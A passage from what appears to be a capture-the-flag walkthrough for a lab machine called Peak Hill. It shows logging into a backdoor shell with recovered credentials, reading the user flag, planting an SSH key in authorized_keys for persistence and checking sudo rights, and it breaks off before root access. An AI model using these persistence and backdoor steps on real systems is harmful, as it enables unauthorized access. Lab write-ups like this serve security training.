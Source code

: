 ~~~
$ nc 10.10.50.9 7321
Username: dill
Password: n3v3r_@_d1ll_m0m3nt
Successfully logged in!
Cmd: cat /home/dill/user.txt
f1e13335c47306e193212c98fc07b6a0
~~~

User flag: `f1e13335c47306e193212c98fc07b6a0`


# #2 - What is the root flag?

## Maintain access

Unfortunately, these credentials didn't work on the server directly (dill's password is different than the one hardcoded in the shell).

Let's add our SSH key to dill's `.ssh` directory to be able to connect via SSH directly. First generate a public key and a private key on our own machine:

~~~
$ ssh-keygen -t rsa
$ cat id_rsa.pub 
ssh-rsa AAAAB3Nz[REDACTED]7YP7lhvLfM= unknown@localhost.localdomain
~~~

Now let's add this string to dill's `.ssh` directory using the backdoor:

~~~
Cmd: echo "ssh-rsa AAAAB3Nz[REDACTED]71CiH7YP7lhvLfM= unknown@localhost.localdomain" >> /home/dill/.ssh/authorized_keys
~~~

Now, we can connect directly in SSH without password.

~~~
$ ssh dill@10.10.50.9
dill@ubuntu-xenial:~$ whoami
dill
~~~

Let's check our privileges

~~~
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
~~~

This program needs to be run as root:

